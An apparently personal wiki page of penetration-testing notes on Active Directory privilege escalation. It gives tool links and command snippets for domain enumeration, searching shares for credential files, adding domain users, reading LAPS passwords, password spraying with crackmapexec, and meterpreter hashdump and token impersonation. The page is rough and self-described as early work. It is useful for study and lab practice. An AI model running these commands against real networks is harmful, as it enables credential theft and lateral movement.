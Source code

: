 # Active Directory Privilege Escalation
For exploitation see [[AD-Exploitation-Hub]] or general theory and definitions [[Active-Directory-Defined]]. For commands cheatsheet [[Active-Directory-Commands]] or for enumeration see [[Active-Directory-Enumeration-Defined]]. [[Networks/Network-Protocols]] are used extensive, especially [[DNS-Defined]] in AD networks.

THIS VERY WORK IN PROGRESS! AND VERY EARLY THERE ARE BETTER ELSEWHERE

## Scripts
[ADAPE](https://github.com/hausec/ADAPE-Script)

## Tooling
[Flangvik/SharpCollection](https://github.com/Flangvik/SharpCollection) is  a github repose that contains ..*"
Nightly builds of common C# offensive tools, fresh from their respective master branches built and released in a CDI fashion using Azure DevOps release pipelines."* 

## General Enumeration
Go to [[Active-Directory-Enumeration-Cheatsheet]] for a full listing of just commands; [[Active-Directory-Enumeration-Defined]] for more detail whys and hows, but it is still a Windows system you have foothold on so [[Windows-Privilege-Escalation-Vectors]] maybe required! 


## Powerview
PowerView "is a powershell tool to gain network situational awareness one Windows domains." For a good concatenation of all the [[Powerview-Cheatsheet]]s see follow the link.
[Powerview](https://github.com/PowerShellMafia/PowerSploit/blob/dev/Recon/PowerView.ps1)

Due to AD commands are a restricted to DCs and some(times) Adminstrators. Get PowerView on the box, you need some help.
```powershell
. .\PowerView.ps1				# import PowerView
Import Module PowerView.ps1			
Get-NetDomain					# Like ADDomain but lists less information
Get-NetDomainController				# List all Domain Controller
Get-NetForest					# like AdForest
Get-NetDomainTrust				# like NetDomainTrust

Find-InterestingDomainShareFile
-CheckAccess
*password*
*sensitive*
*admin*
*login*
*secret*
*unattend*.xml
*vmdk
*creds*
*credential*
*.config
```

## Bloodhound and Sharphound
Mapping out the Domain and its properties is key to mental digesting the interconnected system of systems, abstrat and physical see: [[Neo4j-And-Bloodhound-Guide]]


## Users and Groups
[[Active-Directory-Default-Security-Groups-Table]] also contains addition pwnables possiblities.
```powershell
net user $user $password /add /domain
net group "$groupname" /add $user

# LAPs group can read passwords
Get-ADComputer -Filter 'ObjectClass -eq "computer"' -Property *
# Password is in output or Kali lapsdumper
```

## Exploitation Tool
[[Impacket-Cheatsheet]]
[[Kerbrute-Cheatsheet]]
[[Crackmapexec-Cheatsheet]]

You want to target the subnet and then as you laterally move through the network the Adminstrators and DCs.
`crackmapexec smb $IP -u users.txt -p passes.txt`

## Recon Tools

- **DNS**
For more about [[DNS-Defined]], for enumeration for DNS see both 
[[DNS-Recon-Active]] and [[DNS-Recon-Passive]].
- **SMB**
See [SMB tool](SMB-Recon-Cheatsheet.md) and [[RPCClient-Cheatsheet]]
- **LDAP**
[[LDAP-Recon]]

#### Empire and Starkiller
[[Empire]]

Rubeus, [[Seatbelt-Helpsheet]], [[Mimikatz-Cheatsheet]]


#### Metasploit and Proxychains

Metasploit combined with proxychains can used to pivot and access segmented sections of network.
The shells create route through then inaccessable parts of the network can be mapped beyond the shell's address.
To proxy through the network see sections on [[Proxies]] and [[Pivoting-and-Proxying-with-Metasploit]] 

Due to Trusts, pivoting in required to hop to the connection between Domains. 
Trust can be: 
1. Directional - The direction of the trusts flows from a trusting domain to a trusted domain.
1. Transitive - The trust relationship expands beyond just two domains to include other trusted domains.

If inclined meterpreter and its commands:
```meterpreter
migrate 	# Don't forget to migrate to better processes as processes die: lsass.exe
hashdump

use incognito
list_token -u
impersonate_token $TOKEN
```


## Services

If SPN misconfigured Privileges using combinations of [[Active-Directory-Lateral-Movement]] and [[AD-Kerberos-Delegation-Exploitation]].
```powershell
setspn -T medin -Q  */*        # extract all accounts in the SPN - service principle name - service and account mapping
```